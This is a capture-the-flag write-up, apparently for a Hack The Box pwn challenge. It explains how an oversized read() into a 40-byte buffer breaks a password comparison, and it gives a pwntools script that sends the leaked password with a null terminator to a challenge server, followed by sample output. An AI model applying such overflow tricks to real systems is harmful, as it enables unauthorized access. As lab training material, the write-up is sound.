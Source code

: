 # Space Pirate: Going Deeper

> We are inside D12! We bypassed the scanning system, and now we are right in front of the Admin Panel. The problem is that there are some safety mechanisms enabled so that not everyone can access the admin panel and become the user right below Draeger. Only a few of his intergalactic team members have access there, and they are the mutants that Draeger trusts. Can you disable the mechanisms and take control of the Admin Panel?

---

The binary's two inputs both allow the attacker to overwrite the length of the buffer, but not enough to be able to overwrite the instruction pointer.

The binary's source code leaks the password for retrieving the flag. However, the password is 51 bytes long, the buffer is only 40 bytes large, and the `read()` call attempts to write 52 bytes of the input into the buffer. Thus, by entering the password, the buffer is overflowed and the string comparison is done not with the password terminated by a null byte, but terminated by whatever bytes happen to follow it on the stack, causing the comparison to fail.

By sending the password terminated by a null byte, the string comparison will pass and the flag will be rendered.

```python
from pwnlib.tubes.remote import remote

hostname = "64.227.37.154"
port = 30042
r = remote(hostname, port, ssl=False)

# Grab the banner
banner = r.recvuntil(b'\x0a\x3e\x3e\x20')
print(banner.decode("utf-8"))

# Choose option #1, to "disable mechanisms"
r.sendline(b"1")
response = r.recvuntil(b"[*] Input: ")
print(response.decode(), end="")

# Input the password ending with a null byte
password = "DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft"
print(password)
r.sendline(password.encode() + b"\x00")

# Retrieve and print the flag
r.recvline()
flag = r.recvline().decode("utf-8")
print()
print(flag)
```

```bash
$ python3 exploit.py


                  Trying to leak information from the pc.. 🖥️


             ____________________________________________________
            /                                                    \
           |    _____________________________________________     |
           |   |                                             |    |
           |   | goldenfang@d12:$ history                    |    |
           |   |     1 ls                                    |    |
           |   |     2 mv secret_pass.txt flag.txt           |    |
           |   |     3 chmod -x missile_launcher.py          |    |
           |   |     4 ls                                    |    |
           |   |     5 history                               |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |                                             |    |
           |   |_____________________________________________|    |
           |                                                      |
            \_____________________________________________________/
                   \_______________________________________/
                _______________________________________________
             _-'    .-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.  --- `-_
          _-'.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.--.  .-.-.`-_
       _-'.-.-.-. .---.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-`__`. .-.-.-.`-_
    _-'.-.-.-.-. .-----.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-.-----. .-.-.-.-.`-_
 _-'.-.-.-.-.-. .---.-. .-----------------------------. .-.---. .---.-.-.-.`-_
:-----------------------------------------------------------------------------:
`---._.-----------------------------------------------------------------._.---'


[*] Safety mechanisms are enabled!
[*] Values are set to: a = [1], b = [2], c = [3].
[*] If you want to continue, disable the mechanism or login as admin.

1. Disable mechanisms ⚙️
2. Login ✅
3. Exit 🏃
>>

[*] Input: DRAEGER15th30n34nd0nly4dm1n15tr4t0R0fth15sp4c3cr4ft

[+] Welcome admin! The secret message is: HTB{...}
```
